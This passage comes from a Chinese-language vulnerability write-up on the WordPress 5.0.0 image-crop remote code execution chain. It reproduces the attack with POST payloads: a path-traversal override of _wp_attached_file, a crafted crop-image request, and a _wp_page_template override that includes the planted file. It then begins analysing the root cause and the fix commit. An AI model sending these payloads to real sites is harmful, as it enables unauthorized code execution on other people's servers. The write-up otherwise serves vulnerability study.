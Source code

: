 [![](https://p0.ssl.qhimg.com/t01f896117f0c47f9fe.png)](https://p0.ssl.qhimg.com/t01f896117f0c47f9fe.png)

保留该数据包，并添加POST

```
&amp;meta_input[_wp_attached_file]=2019/02/2-4.jpg#/../../../../themes/twentynineteen/32.jpg
```

[![](https://p3.ssl.qhimg.com/t01883561d14c45f041.png)](https://p3.ssl.qhimg.com/t01883561d14c45f041.png)

裁剪

[![](https://p2.ssl.qhimg.com/t012bb4e77698e2f61c.png)](https://p2.ssl.qhimg.com/t012bb4e77698e2f61c.png)

同理保留改数据包，并将POST改为下面的操作，其中nonce以及id不变

```
action=crop-image&amp;_ajax_nonce=8c2f0c9e6b&amp;id=74&amp;cropDetails[x1]=10&amp;cropDetails[y1]=10&amp;cropDetails[width]=10&amp;cropDetails[height]=10&amp;cropDetails[dst_width]=100&amp;cropDetails[dst_height]=100
```

触发需要的裁剪

[![](https://p5.ssl.qhimg.com/t01df19f56014a34e79.png)](https://p5.ssl.qhimg.com/t01df19f56014a34e79.png)

图片已经过去了

[![](https://p0.ssl.qhimg.com/t01e81239d8cb1e0c21.png)](https://p0.ssl.qhimg.com/t01e81239d8cb1e0c21.png)

包含，我们选择上传一个test.txt，然后再次修改信息，如前面

```
&amp;meta_input[_wp_page_template]=cropped-32.jpg
```

[![](https://p1.ssl.qhimg.com/t017c79bd3a204ab4d3.png)](https://p1.ssl.qhimg.com/t017c79bd3a204ab4d3.png)

点击查看附件页面，如果图片被裁剪之后仍保留敏感代码，则命令执行成功。

[![](https://p0.ssl.qhimg.com/t013ba5f9c0148c2ca0.png)](https://p0.ssl.qhimg.com/t013ba5f9c0148c2ca0.png)



## 详细分析

下面我们详细分析一下整个利用过程，以及在各个部分踩的坑。我们可以简单的把漏洞利用链分为4个大部分。

1、通过Post Meta变量覆盖，修改媒体库中图片的_wp_attached_file变量。

这个漏洞是整个利用链的核心点，而WordPress的修复方式也主要是先修复了这个漏洞。WordPress很良心的在所有的release版本中都修复了这个问题（官网下载的5.0.0已经修复了），由于原文中曾提到整个利用链受到4.9.9和5.0.1的另一个安全补丁影响，所以只有5.0.0受影响。在分析还原WordPress的更新commit中，我们寻找到了这个漏洞的修复commit，并获得了受该漏洞影响的最新版本为WordPress[WordPress commit &lt;= 43bdb0e193955145a5ab1137890bb798bce5f0d2 （WordPress 5.1-alpha-44280）](https://github.com/WordPress/WordPress/commit/43bdb0e193955145a5ab1137890bb798bce5f0d2)
